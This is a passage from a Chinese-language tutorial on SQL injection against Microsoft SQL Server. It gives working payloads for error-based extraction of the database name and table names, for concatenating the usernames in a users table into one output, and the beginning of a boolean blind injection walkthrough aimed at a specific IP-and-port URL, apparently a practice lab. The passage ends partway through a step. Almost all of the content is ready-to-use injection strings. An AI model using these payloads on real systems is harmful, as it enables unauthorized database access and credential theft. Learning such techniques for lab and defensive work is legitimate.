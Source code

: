 ```
#查询当前数据库
?id=1' and 1=(select cast(db_name() as int)) -- qe

```

[![](https://p0.ssl.qhimg.com/t01df3bbcf46b69a91b.png)](https://p0.ssl.qhimg.com/t01df3bbcf46b69a91b.png)

```
#查询第一个数据表
?id=1' and 1=(select top 1 cast(name as int) from dbo.sysobjects) -- qe

```

[![](https://p0.ssl.qhimg.com/t0194b470a057b6bc45.png)](https://p0.ssl.qhimg.com/t0194b470a057b6bc45.png)

### <a class="reference-link" name="4%E3%80%81%E6%95%B0%E6%8D%AE%E7%BB%84%E5%90%88%E8%BE%93%E5%87%BA"></a>4、数据组合输出

```
#将数据表组合输出
?id=1' and 1=stuff((select quotename(name) from dbo.sysobjects  for xml path('')),1,0,'')--+

```

[![](https://p0.ssl.qhimg.com/t0126a37aad232cde94.png)](https://p0.ssl.qhimg.com/t0126a37aad232cde94.png)

```
#查询users表中的用户名并组合输出
?id=1'  and 1=stuff((select quotename(username) from users for xml path('')),1,0,'')--+

```

[![](https://p4.ssl.qhimg.com/t01c6b6db795cf3b7df.png)](https://p4.ssl.qhimg.com/t01c6b6db795cf3b7df.png)



## 0x05 布尔盲注

### <a class="reference-link" name="1%E3%80%81%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E5%BA%93%E5%90%8D"></a>1、查询数据库库名

1、查询数据库库名长度为11

```
http://219.153.49.228:40768/new_list.asp?id=2 and len((select top 1 db_name()))=11
```

[![](https://p1.ssl.qhimg.com/t01d1a89cb7da54caa8.png)](https://p1.ssl.qhimg.com/t01d1a89cb7da54caa8.png)

2、查询第一个字符的ascii码为109
